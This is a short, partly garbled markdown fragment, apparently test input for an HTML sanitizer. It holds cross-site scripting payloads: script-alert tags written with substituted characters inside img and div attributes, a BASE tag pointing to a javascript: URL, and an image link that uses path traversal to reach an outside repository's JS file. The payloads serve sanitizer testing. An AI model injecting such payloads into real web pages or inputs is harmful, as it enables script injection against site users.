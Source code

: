 ![

<img src='¼script¾alert(¢XSS¢)¼/script¾'>
<div dir="¼script¾alert(¢XSS¢)¼/script¾">¼script¾alert(¢XSS¢)¼/script¾</div>

<BASE HREF="javascript:alert('XSS');//">

](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
